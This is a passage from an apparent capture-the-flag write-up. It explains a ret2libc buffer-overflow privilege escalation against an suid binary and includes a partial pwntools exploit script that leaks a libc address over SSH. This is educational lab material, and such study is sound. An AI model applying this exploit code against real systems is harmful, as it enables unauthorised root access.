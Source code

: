 ```python
io.sendline(payload)

io.interactive()
```
This gets us a shell on the box.

# Root
Now, we could run our usual enumeration tactics but there's an suid file in our home directory named "exploit_me" which seems more important.

Running our usual checks, we see that there's no win function in this binary, no stack canary and no pie but we can cause an overflow. This setup should point to a ret2libc attack which is a relatively complex exploit. We have to perform rop(Return Oriented Programming) in order to execute `/bin/sh` and get a shell as root. In order to rop with libc(which has the `system` function and `/bin/sh` string), we have to know the base address of `libc` so we can provide those addresses to the program and it runs our code, because of ASLR(address space layout randomization) libc addresses are randomized so we need a libc address leak. With an address leak we can compute where the base address of libc is and call `system('/bin/sh')`.

We'll be using pwntools `ROP()` functionality to automate the exploit. First, to get a libc address leak, we overwrite the return address with a rop chain. The rop chain first calls `puts` with the GOT(global offsets table) address of `puts`, printing it out and then it restarts the program by calling `main`. We ssh into the machine(using the keyfile because we dont have the password) and start the vulnerable program as a process. We recieve the puts leak and extract it in a correct format. We can match the leaked address and get a libc file from https://libc.blukat.me/ but we can also just use the libc on the machine itself `/lib/x86_64-linux-gnu/libc.so.6`. We compute and set the correct base address on libc and build another rop chain to run `system('/bin/sh')`.

We first run the instruction `pop rdi, ret` which pops a value from the stack into the `rdi` register(first argument for a function call is taken in `rdi`). Next, We place the address of `/bin/sh` on the stack so it gets popped into rdi(so it can be used for `system('/bin/sh')`). We add another `ret` for stack alignment(this isn't strictly needed sometimes). Finally, we call `system` itself, so the program runs `system('/bin/sh')` and gives us a shell as root.

The final exploit looks something like this:
```python
from pwn import *

#initializing binary, elf, libc etc.,
context.binary = binary = './exploit_me'
context.arch = 'amd64'

elf = ELF(binary)
rop = ROP(elf)

#padding, payloads and rop calls for address leak
padding = b"A"*40
rop.call(elf.sym['puts'], [elf.got.puts])	#calling puts to get the address of puts
rop.call(elf.sym['main'])			#returning execution back to main function

payload = flat(
	padding, rop.chain())			#chaining our inital payload together

#processes, interaction, finding puts leak
shell = ssh('zeeshan', '10.10.68.38', keyfile='id_rsa', port=22)	#using ssh to login with pwntools
#io = process(binary)
io = shell.process(['sudo','./exploit_me'])	#starting process with sudo

io.recvline()
io.sendline(payload)
leak = u64(io.recvline().rstrip().ljust(8,b'\0'))
log.info(f"Found puts leak at => {hex(leak)}")

```